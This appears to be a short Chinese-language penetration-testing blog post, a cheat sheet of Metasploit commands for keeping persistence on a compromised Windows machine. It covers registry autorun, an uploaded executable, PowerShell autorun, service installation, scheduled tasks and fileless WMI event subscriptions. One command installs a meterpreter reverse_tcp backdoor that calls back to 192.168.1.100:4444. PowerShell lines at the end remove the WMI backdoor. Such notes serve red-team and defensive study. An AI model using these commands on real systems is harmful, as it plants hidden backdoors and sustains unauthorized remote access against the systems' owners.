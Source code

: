 ```yaml
---
title: "Windows 单机权限维持"
date: 2019-07-22T00:00:00+08:00
draft: false
tags: ['windows']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


Windows 单机权限维持

<!--more-->

## 注册表

上传 vbs 开机自启 (被弃用).

```
run persistence -r 192.168.1.100 -p 4444 -i 5 -P windows/x64/meterpreter/reverse_tcp -X
```

上传 exe 开机自启 (替代 vbs 方式).

```
run post/windows/manage/persistence_exe REXEPATH=/home/exp10it/msf.exe
```

添加 powershell 开机自启.

```
use exploit/windows/local/registry_persistence
```

可指定 `STARTUP`, 但注意要在会话是 Administrator 权限的时候运行, System 权限需先降权, 否则无效.

## 服务

仅支持 x86 payload, 可通过 `exploit/windows/local/payload_inject` 反弹成 64 位的会话.

```
use exploit/windows/local/persistence_service
```

## 计划任务

上传 exe 执行, 需要 system 权限.
```
run scheduleme -e /home/exp10it/msf.exe -H 12
```

中途会出现 ` Failed to create scheduled task!!`, 但实际上已经添加成功.

## WMI

通过 powershell 方式执行, 无文件后门, 支持 5 种触发方式.

```
use exploit/windows/local/wmi_persistence
```

注意切换触发方式时要先清除以前的后门.

```
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Updater%'" | Remove-WmiObject -Verbose
``` 